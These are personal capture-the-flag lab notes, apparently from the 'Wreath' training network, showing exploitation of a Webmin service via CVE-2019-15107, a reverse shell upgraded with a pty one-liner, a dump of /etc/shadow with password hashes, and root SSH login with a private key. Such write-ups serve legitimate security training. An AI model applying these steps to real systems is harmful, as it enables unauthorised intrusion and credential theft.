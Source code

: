 We got an error when opened the site 
```
10.200.85.200
```
![[Pasted image 20231206142030.png]]


In real life we would perform a "footprinting" phase of the engagement at this point. This essentially involves finding as much public information about the target as possible and noting it down. You never know what could prove useful!
After adding the IP address in the host file we were able to view the site
```
10.200.85.200 thomaswreath.thm
```
![[Pasted image 20231206142204.png]]


We are not able to get the OS information from Nmap but able to get the OS info from Wappalyzer


Service Running : snet-sensor-mgmt 
Vulnerability : CVE-2019-15107

On searching the exploit i got a script to check if we can exploit it or not
https://github.com/MuirlandOracle/CVE-2019-15107
```
pip3 install -r requirements.txt
```
 It is, however, good practice to read through scripts before running them


```
https://thomaswreath.thm:10000/
```
![[Pasted image 20231206144238.png]]

Yup we were able to exploit it
![[Pasted image 20231206144625.png]]

![[Pasted image 20231206144859.png]]
![[Pasted image 20231206144922.png]]
Got a reverse shell with full access to have to write some code dumb shell to full aceess shell

```
python3 -c "__import__('pty').spawn('/bin/bash')"
stty -raw echo;fg
reset.

export TERM=xterm
```


Let's get the shadow file

```
cat /etc/shadow

root:$6$i9vT8tk3SoXXxK2P$HDIAwho9FOdd4QCecIJKwAwwh8Hwl.BdsbMOUAd3X/chSCvrmpfy.5lrLgnRVNq6/6g0PxK9VqSdy47/qKXad1::0:99999:7:::

twreath:$6$0my5n311RD7EiK3J$zVFV3WAPCm/dBxzz0a7uDwbQenLohKiunjlDonkqx1huhjmFYZe0RmCPsHmW3OnWYwf8RWPdXAdbtYpkJCReg.::0:99999:7:::
```


```
ssh -i id_rsa root@thomaswreath.thm
chmod 600 id_rsa
```
chmod 600 ( rw------- )600 permissions means that **only the owner of the file has full read and write access to it**. Once a file permission is set to 600, no one else can access the file.
![[Pasted image 20231206150600.png]]


